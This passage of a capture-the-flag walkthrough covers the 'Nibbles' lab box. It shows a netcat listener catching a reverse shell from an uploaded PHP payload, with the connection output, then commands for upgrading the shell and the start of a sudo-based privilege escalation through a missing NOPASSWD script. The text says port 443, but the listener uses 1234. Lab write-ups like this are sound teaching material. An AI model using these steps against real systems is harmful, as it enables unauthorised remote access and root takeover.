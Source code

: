 Here we are going to see an `image.php` file. This is the reverse shell payload. Before I click on the `image.php` file to execute my reverse shell payload, I setup a Netcat listener on port 443 since that is what I created the payload to connect to.

```
nc -lvnp 1234
```

I open up the `image.php` file and...

```
root@kali-[~]nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.75] 56028
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64
GNU/Linux
 23:13:08 up  6:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
```

I'm going to upgrade my shell to a more interactive shell. To do this, we enter in the following command:

````
python3 -c 'import pty; pty.spawn("/bin/bash")'                                                 │
````

After this, press `Ctrl-Z` and it will suspend your shell. After you do this, you will want to type `stty raw echo; fg` and hit enter. Right after you hit enter type `reset` and hit enter. Your terminal should have cleared and put you back in your shell. If you are prompted with which terminal you are using (if you are using tmux it might prompt this) you can type `screen` if you are using `tmux`. Now that my shell is upgrade, the first thing I did was type `sudo -l` to see if I can run anything as sudo with this user so I can escalate my privileges some how.

## Privilege Escalation

```
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sb
in\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:│
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

It says I can run the `monitor.sh` file under the absolute path `/home/nibbler/personal/stuff`. Thing is this directory doesn't exist. So we can just go and create it. 

```
mkdir -p /home/nibbler/personal/stuff/
```

Now we can create the file by just typing 

~~~
touch /home/nibbler/personal/stuff/monitor.sh
~~~
